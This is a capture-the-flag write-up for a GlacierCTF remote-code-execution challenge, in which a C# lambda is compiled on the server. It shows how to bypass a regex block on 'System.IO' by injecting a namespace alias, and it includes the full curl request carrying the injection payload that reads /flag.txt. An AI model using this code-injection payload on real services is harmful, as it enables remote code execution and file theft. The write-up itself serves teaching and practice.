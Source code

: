 # Challenge

It came to our attention that a highly advanced APT targeted our edge computing system. In order to stop the attacks, we implemented even more advanced mitigations.

Think seccomp, but for the web!

Now there's no way an attacker could run malicious code, right?

(Goal: Read flag.txt at the filesystem's root.)

https://rce-as-a-service-2.ctf.glacierctf.com

# Writeup

We can execute a lambda on the server. To read the flag, we can use `System.IO.File.ReadAllText`, but the server does not allow occurrence of `System.IO`:

```csharp
// Here we can adjust the difficulty of the challenge by banning certain functions.
var fileSystemUsage = Regex.IsMatch(query, "System.IO");

if (fileSystemUsage) {
    throw new Exception("'System.IO is not in the edge-computing file. This incident will be reported.'");
}
```

Code template execute remotely:

```csharp
    var src = $@"
        using System;
        using System.Linq;
        using System.Collections.Generic;
        
        namespace RCE
        {{
            public static class Factory
            {{
                public static Func<IEnumerable<string>, IEnumerable<object>> CreateQuery = {query};
            }}
        }}";
```

We can write `using S = System;` and `S.IO.File.ReadAllText` to circumvent the match, but `using S = System` can only be used in namespace.

Therefore, we can create a namespace for it and define a new function:

```csharp
using System;
using System.Linq;
using System.Collections.Generic;
        
namespace RCE
{
    public static class Factory
    {
        public static Func<IEnumerable<string>, IEnumerable<object>> CreateQuery = (data) => data.Select(d => RCE.T.C.Read(@"/flag.txt"));
    }
    namespace T {
        using S = System;
        public class C {
            public static string Read(string path) {
                return S.IO.File.ReadAllText(path);
            }
        };
    }
}
```

This is similar to SQL injection: we inject additional namespaces and classes into the code, and maintain the brackets. Capture the flag:

```shell
curl -vvv \
--request POST \
--url https://rce-as-a-service-2.ctf.glacierctf.com/rce \
--header 'Content-Type: application/json' \
--data '{
"Data": ["hello", "crypto", "lena"],
"Query": "(data) => data.Select(d => RCE.T.C.Read(@\"/flag.txt\")); } namespace T { using S = System; public class C { public static string Read(string path) { return S.IO.File.ReadAllText(path); } }"
}'
# => glacierctf{L1V1N_ON_TH3_3DG3}
```

# Conclusion

Do not allow RCE. Do not use strings from user input to concat.